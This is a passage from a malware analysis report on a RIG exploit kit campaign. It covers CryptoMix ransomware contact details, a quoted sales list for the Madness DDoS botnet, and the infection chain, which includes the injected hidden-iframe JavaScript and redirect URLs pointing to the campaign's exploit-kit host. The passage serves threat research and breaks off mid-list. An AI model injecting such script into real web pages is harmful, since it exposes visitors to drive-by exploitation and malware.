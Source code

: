  <figcaption>Ransomware note left after encryption done is by CryptoMix</figcaption>
</figure>

Emails provided for the support were supls@post.com and supls@oath.com

Also, since 2017-01-27, it seems that the back-end server who’s distributing malware have to change the fleercivet payload to the **MRCR** ransomware. We didn’t have time to investigate on it. However, the packer used is robust and include a memory anti-dump. The C2 communication URL is also new if we look at the previous analysis that has been done on it. Spora ransomware have also been observed.

## **DDOS botnet**

One of the payloads that we’ve also seen being the push in this campaign was the Madness DDOS botnet. This malicious software is sold on dark markets and claims to have these following capabilities:

|   ``` - Written in C ++, easy crypto, is lightweight (compressed sample <15KB)   - Full compatibility with all Windows NT family (x86 and x64)  - Boat has 7 types of attacks   - Stability in the system. Load capacity on the CPU and RAM is very uniform.   - Do not attract attention to UAC and Windows Firewall   - Is able to establish port, referal and cookies individually for each goal   - It supports up to 10 targets simultaneously   - It has a very low CPU load thanks to a new, complex system of command  parsing (all analogs parsing passes inside functions in multiple threads  - a CPU-intensive extra work new bot puts all the data into the array  before the attack and function come ready-made options. address, port,  referral, etc.)   - It has a tremendous output power of more than 1500 http  (and more than 30,000 UDP) queries per minute due to the  direct interaction with the network drivers, even on desktop Windows!  (Only when using WinSock) This is approximately 10-fold more  than some few analogs and more top (on this parameter) competitors.   - The control panel displays: the number of requests per second, the  rights in the system version of the system.   - Supports bypassing the security CloudFlare (!!!), and many other,  more simple.   - Supports Slow GET and Slow POST modes!   - In the packet header indicates the cache off (Cache-Control: no-cache),  which increases the load on the server.   - Protection of dialogue bot panel spetsklyuchem  ```   |
| --- |

The infection chain followed the same RIG EK pattern and went like this:

- A user visit a website infected by EITest PHP code (in our test the user agent was MSIE 8.0)
- A malicious script is injected at the bottom of the web page:

```
<script type="text/javascript">
    var lsbnfd = document.createElement("iframe");
    var chmkmjr = "";
    lsbnfd.style.width = "11px";
    lsbnfd.style.height = "19px";
    lsbnfd.style.border = "0px";
    lsbnfd.frameBorder = "0";
    lsbnfd.setAttribute("frameBorder", "0");
    document.body.appendChild(lsbnfd);
    chmkmjr = "http://try.UCR.NEWS/?yus=Amaya.92qd86.406w7y8z0&q=w3bQMvXcJx_QFYbGMvLDSKNbNk_WHViPxoyG9MildZiqZGX_k7fDfF-qoV3cCgWR&br_fl=2060&oq=xfF7JOdXaAPhjECDLQFiz99fWl8W9f_8iUCGykOYhJfT-RCLMApM_6KlJLB_mhj2&biw=Amaya.108on110.406o6u2f1&tuif=3570&ct=Amaya";
    lsbnfd.src = chmkmjr;
</script>

```

- The browser of the victim make a GET request to the injected link
- A javascript file is returned: It first validates the browser version. If it pass, it create an IFrame to    redirect the user again to
    
    ```
    http://try.ucr.news/?yus=Microsoft_Edge.113iw103.406s1a2b2&ct=Microsoft_Edge&biw=Microsoft_Edge.83of66.406v7f3c8&oq=gWRxfF7JOdXaAfhjECDLQViz99fWl4W9f_8iUOGykOYhJXT-RCLMApM_6KlJA&tuif=4436&q=w37QMvXcJx3QFYbGMvvDSKNbNkvWHViPxoyG9MildZyqZGX_k7bDfF-qoVXcC&br_fl=4
    ```
    
- The returning content is a heavy obfuscated javascript which triggers an exploitation into the browser before the payload is downloaded
- Three .DLL files are downloaded to make the bot gain all of its functionality: 
